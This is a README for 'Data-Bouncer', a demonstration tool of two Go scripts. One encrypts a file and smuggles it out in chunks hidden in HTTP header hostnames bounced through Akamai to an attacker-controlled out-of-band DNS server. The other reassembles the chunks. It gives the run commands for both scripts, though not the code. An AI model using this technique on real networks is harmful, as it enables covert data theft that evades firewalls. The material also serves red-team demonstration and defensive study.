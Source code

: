 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for demonstration purposes.

One that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on any url that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt, first encrypts your chosen file using a password you provided, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename.txt> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh server, processes and reassembles the chunks and does the reverse by decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile.txt> -p <password> -u <UUID> -v
```

### Image
Example of forward traffic from a FortiGate 

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/cbdff616-295b-4d47-a566-dd07c285f617)

